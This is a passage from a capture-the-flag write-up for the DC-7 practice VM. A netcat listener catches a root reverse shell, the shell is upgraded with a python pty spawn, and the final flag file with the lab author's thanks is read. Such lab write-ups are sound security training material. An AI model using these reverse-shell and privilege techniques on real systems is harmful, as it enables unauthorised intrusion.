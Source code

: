 After a while (up to 15 min):

~~~
kali@kali:/data/DC_7/files$ rlwrap nc -nlvp 5555
listening on [any] 5555 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.162] 43908
id
uid=0(root) gid=0(root) groups=0(root)
python -c "import pty;pty.spawn('/bin/bash')"
~~~

# Root flag

Let's get the root flag:

~~~
root@dc-7:~# cd /root
cd /root
root@dc-7:~# ls -la
ls -la
total 36
drwx------  4 root root 4096 Aug 30  2019 .
drwxr-xr-x 22 root root 4096 Aug 29  2019 ..
lrwxrwxrwx  1 root root    9 Aug 29  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root  949 Aug 29  2019 .bashrc
drwxr-xr-x  3 root root 4096 Aug 29  2019 .drush
drwx------  3 root root 4096 Oct 11 15:45 .gnupg
-rw-r--r--  1 root root  148 Aug 18  2015 .profile
-rw-r--r--  1 root root   74 Aug 29  2019 .selected_editor
-rw-r--r--  1 root root 1079 Aug 30  2019 theflag.txt
-rw-r--r--  1 root root  165 Aug 29  2019 .wget-hsts
root@dc-7:~# cat theflag.txt
cat theflag.txt




888       888          888 888      8888888b.                             888 888 888 888 
888   o   888          888 888      888  "Y88b                            888 888 888 888 
888  d8b  888          888 888      888    888                            888 888 888 888 
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888 
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888 
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P 
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "  
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888 


Congratulations!!!

Hope you enjoyed DC-7.  Just wanted to send a big thanks out there to all those
who have provided feedback, and all those who have taken the time to complete these little
challenges.

I'm sending out an especially big thanks to:

@4nqr34z
@D4mianWayne
@0xmzfr
@theart42

If you enjoyed this CTF, send me a tweet via @DCAU7.

root@dc-7:~# 
~~~
